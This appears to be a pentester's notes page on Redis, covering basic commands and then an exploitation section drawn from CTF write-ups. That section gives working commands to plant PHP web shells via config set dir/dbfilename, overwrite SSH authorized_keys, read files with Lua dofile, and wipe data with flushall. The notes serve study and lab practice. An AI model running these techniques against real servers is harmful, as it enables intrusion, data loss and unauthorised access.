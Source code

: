 # Redis
## Introduction to Redis

- Key value pair database
- (nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```sql
info 	-- server info
CONFIG GET * --  list of all active configuration variables you can change

```
Keyspace section is the main dictionary of each database

## Useful Commands
```sql
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

[flushall](https://redis.io/commands/flushall/)
```bash
# Delete all the keys of all the existing databases, not just the currently selected one. This command never fails.
flushall [ASYNC | SYNC]
```

## Exploitation


[ChrisPritchard/ctf-writeups TIPS-AND-TRICKS.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md) provides a nice explanation for my very sparse notes below: *"if you have access to redis (port 6379) and a handy reachable location (e.g. if you know a user and have port 22, or a website you know or can guess the dir of), the following technique (from one of redis' authors!) can work:"* [https://dl.packetstormsecurity.net/1511-exploits/redis-exec.txt](https://dl.packetstormsecurity.net/1511-exploits/redis-exec.txt)

continued from [ChrisPritchard/ctf-writeups TIPS-AND-TRICKS.md](https://github.com/ChrisPritchard/ctf-writeups/blob/master/TIPS-AND-TRICKS.md):
>For the latter method, a website, the following are the steps:
>1. install the `redis-cli` on your attacking machine. `sudo apt install redis-tools`
>2. connect to the server: `redis-cli -h 10.10.10.10.`
>3. run the following commands to set and save the database:
```
config set dir /var/www/html
config set dbfilename "shell.php"
set 1 "<?php echo shell_exec($_GET['e'].' 2>&1'); ?>"
save
```
>- all going well, navigate to /shell.php?e=id on the webserver and see if the username has shown up
>- because of how mangled the file is, and the simplicity of the web shell, if you want to catch a reverse shell remember to url encode the payload you add to `?e=`


```sql
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```

[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? That’skinda trivial.
$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get di
1) "dir"
2) "/Users/antirez/.ssh"
3) 192.168.1.11:6379> config set dbfilename "authorized_keys"
4) OK
5) 192.168.1.11:6379> save
6) OK
```

[0xdf variation for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) - White space required!
```bash
# 0xDF 
# cmd.php:




 <? system($_REQUEST['cmd']); ?>




# 0xdfreddishRCE.sh
#!/bin/bash

# https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#webshell
redis-cli -h 127.0.0.1 flushall
cat cmd.php | redis-cli -x set subscribetoippsecandread0xdf
redis-cli -h 127.0.0.1 config set dir /var/www/html/
redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
redis-cli -h 127.0.0.1 save
```

[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:*
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

## Hardening

[Redis force Authentication](https://redis.io/docs/management/security/#authentication)
```bash
sudo sed -i 's/# requirepass/requirepass/g' /etc/redis/redis.conf
```
## References

[Redis Commands](https://redis.io/commands/)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
[Lzone](https://lzone.de/cheat-sheet/Redis)
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
[alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www)
[Redis RCE from packetstormsecurity](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)  
[0xdf Writeup for Reddish](https://0xdf.gitlab.io/2019/01/26/htb-reddish.html) 
[Redis force Authentication](https://redis.io/docs/management/security/#authentication)